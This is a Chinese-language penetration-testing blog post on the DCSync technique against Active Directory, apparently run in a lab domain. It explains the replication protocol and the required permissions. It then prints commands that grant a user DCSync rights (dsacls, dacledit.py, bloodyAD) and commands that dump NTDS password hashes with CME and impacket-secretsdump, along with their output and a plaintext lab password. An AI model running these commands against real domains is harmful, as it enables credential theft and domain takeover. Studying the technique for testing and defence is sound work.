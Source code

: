 ```yaml
---
layout: post
title: DCSync
categories: [Active Directory]
tags: [dcsync]
---
```


## DCSync Attack

在 Active Directory 中，每个域控制器都存储着完整的目录数据库。为了保证数据的一致性和可用性，域控制器之间会进行定期的数据同步。默认情况下，域内不同 DC 每隔 15 分钟会进行一次数据同步，当一个 DC 从另外一个 DC 同步数据时，它会使用目录复制服务远程协议 ([MS-DRSR](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47)) 发送 DSGetNCChanges 请求，来对另外一台域控中的域用户凭据进行复制。

DCSync 攻击就是利用域控制器之间同步的原理，通过 Directory Replication Service（DRS，目录复制服务）远程协议的 [IDL_DRSGetNCChanges](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b63730ac-614c-431c-9501-28d6aca91894) 接口，模拟 DC 向真实 DC 发起数据同步请求，来窃取域用户凭据。**_由于 MS-DRSR 协议是 Active Directory 的有效且必要的功能，因此无法将其关闭或禁用。_**

> 注：DCSync 攻击对[只读域控制器 (RODC)](https://learn.microsoft.com/zh-cn/windows/win32/ad/rodc-and-active-directory-schema)无效，因为 RODC 不能参与复制同步数据到其他 DC。

在域内，对用户所具有的权限其实最根本是看用户的 DACL。对于 DCSync 攻击来说，只要域用户拥有以下三条 ACE 即可向域控发出数据同步请求，从而去转储域内用户凭据，这三条 ACE 分别为：

| **ACE**                                                                                                                                             | **GUID**                             | **描述**                                                               |
| --------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------ | ---------------------------------------------------------------------- |
| [DS-Replication-Get-Changes](https://learn.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes)                                 | 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2 | 复制目录更改                                                           |
| [DS-Replication-Get-Changes-All](https://learn.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes-all)                         | 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2 | 全部复制目录更改                                                       |
| [DS-Replication-Get-Changes-In-Filtered-Set](https://learn.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes-in-filtered-set) | 89e95b76-444d-4c62-991a-0facbeda640c | 在过滤集中复制目录更改（这个并不总是需要的，但我们可以添加它以防万一） |

默认情况下，只有 Domain Admins、Enterprise Admins 和 Domain Controllers 组具有所需的权限。但我们可以对域内普通用户添加 ACE 实现普通用户调用 DCSync 导出域内所有用户的 hash。

### No DRSUAPI

实现 Microsoft 目录复制服务远程协议 (MS-DRSR) 的 Microsoft API 称为 [DRSUAPI](https://wiki.samba.org/index.php/DRSUAPI)。

[certsync](https://github.com/zblurx/certsync) 实现了在没有 DRSUAPI 的情况下远程转储 NTDS 的新技术（Golden Certificates + UnPAC the hash automation）。

```console
root@kali-server:~# certsync -u <username> -p <password> -d <domain.com> -dc-ip <dc_ip> -ns <dc_ip>
```

### Example

在 Active Directory 环境中，可以使用 [dsacls](<https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771151(v=ws.11)>) 命令行工具，授予用户 DCSync 权限：

```powershell
$Account = "xiaorang.lab\chenglei"
$RootDSE = [ADSI]"LDAP://RootDSE"
$DefaultNamingContext = $RootDse.defaultNamingContext
$ConfigurationNamingContext = $RootDse.configurationNamingContext

dsacls.exe "$DefaultNamingContext" /G "$($Account):CA;Replicating Directory Changes"
dsacls.exe "$ConfigurationNamingContext" /G "$($Account):CA;Replicating Directory Changes"
```

CME 使用 DCSync 转储域管凭据：

```console
root@kali-server:~# proxychains4 -q cme smb 172.22.13.6 -u chenglei -p Xt61f3LBhg1 --ntds --user Administrator
SMB         172.22.13.6     445    WIN-DC           [*] Windows 10.0 Build 20348 x64 (name:WIN-DC) (domain:xiaorang.lab) (signing:True) (SMBv1:False)
SMB         172.22.13.6     445    WIN-DC           [+] xiaorang.lab\chenglei:Xt61f3LBhg1
SMB         172.22.13.6     445    WIN-DC           [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
SMB         172.22.13.6     445    WIN-DC           [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         172.22.13.6     445    WIN-DC           Administrator:500:aad3b435b51404eeaad3b435b51404ee:6341235defdaed66fb7b682665752c9a:::
SMB         172.22.13.6     445    WIN-DC           [+] Dumped 1 NTDS hashes to /root/.cme/logs/WIN-DC_172.22.13.6_2023-10-08_202001.ntds of which 1 were added to the database
SMB         172.22.13.6     445    WIN-DC           [*] To extract only enabled accounts from the output file, run the following command:
SMB         172.22.13.6     445    WIN-DC           [*] cat /root/.cme/logs/WIN-DC_172.22.13.6_2023-10-08_202001.ntds | grep -iv disabled | cut -d ':' -f1
SMB         172.22.13.6     445    WIN-DC           [*] grep -iv disabled /root/.cme/logs/WIN-DC_172.22.13.6_2023-10-08_202001.ntds | cut -d ':' -f1
```

impacket-secretsdump 使用 DCSync 从域控转储所有域用户凭据：

```console
root@kali-server:~# proxychains4 -q impacket-secretsdump xiaorang.lab/chenglei:Xt61f3LBhg1@WIN-DC.xiaorang.lab -target-ip 172.22.13.6 -just-dc-ntlm -history -user-status
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6341235defdaed66fb7b682665752c9a::: (status=Enabled)
Administrator_history0:500:aad3b435b51404eeaad3b435b51404ee:6341235defdaed66fb7b682665752c9a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: (status=Disabled)
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cb976ec1a1bf8a14a15142c6fecc540e::: (status=Disabled)
zhangwen:1104:aad3b435b51404eeaad3b435b51404ee:fa7d776fdfc82d3f43c9d8b7f5312d77::: (status=Enabled)
chenglei:1105:aad3b435b51404eeaad3b435b51404ee:0c00801c30594a1b8eaa889d237c5382::: (status=Enabled)
zhangtao:1106:aad3b435b51404eeaad3b435b51404ee:e786c4a4987ced162c496d0519496729::: (status=Enabled)
WIN-DC$:1000:aad3b435b51404eeaad3b435b51404ee:5fa21833f17c543f85bc6bae0b6421e9::: (status=Enabled)
WIN-HAUWOLAO$:1103:aad3b435b51404eeaad3b435b51404ee:752d59538cd69d731983cd2b7dfc4b63::: (status=Enabled)
[*] Cleaning up...
```

## Add DCSync Rights - ACL Abuse

当域用户有权限修改整个域对象的 ACL 时，可以给任意用户添加 DCSync 所需要的权限。

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/12f7bbbae9d4b417.png)

在第三方 impacket 包中的 [dacledit.py](https://github.com/ThePorgs/impacket/blob/master/examples/dacledit.py) 脚本，可以滥用 ACL 权限，远程给用户添加 DCSync 权限：

```console
root@kali-server:~# proxychains4 -q python3 dacledit.py xiaorang.lab/chenglei:'Xt61f3LBhg1' -action write -rights DCSync -principal chenglei -target-dn 'DC=xiaorang,DC=lab' -dc-ip 172.22.13.6
Impacket for Exegol - v0.10.1.dev1+20230303.141054.8975ed2d - Copyright 2022 Fortra - forked by ThePorgs

[*] DACL backed up to dacledit-20230718-200428.bak
[*] DACL modified successfully!
```

[bloodyAD](https://github.com/CravateRouge/bloodyAD) 添加 DCSync 权限：

```console
root@kali-server:~# proxychains4 -q bloodyAD -d xiaorang.lab -u chenglei -p Xt61f3LBhg1 --host 172.22.13.6 add dcsync chenglei
[+] chenglei is now able to DCSync
```

## References

- 域渗透中的 DCSync 技术分析  
  [https://zhuanlan.zhihu.com/p/581922712](https://zhuanlan.zhihu.com/p/581922712)
- Active Directory Replication  
  [https://threathunterplaybook.com/library/windows/active_directory_replication.html](https://threathunterplaybook.com/library/windows/active_directory_replication.html)
- Adding DCSync Permissions from Linux  
  [https://www.n00py.io/2022/01/adding-dcsync-permissions-from-linux/](https://www.n00py.io/2022/01/adding-dcsync-permissions-from-linux/)
- ACL Abuse - Pentester's Promiscuous Notebook  
  [https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse#add-dcsync-rights](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse#add-dcsync-rights)
- DCSync - The Hacker Recipes  
  [https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync)
- Granting the Replicating Directory Changes Permission  
  [http://blog.goverco.com/2011/08/granting-replicating-directory.html](http://blog.goverco.com/2011/08/granting-replicating-directory.html)
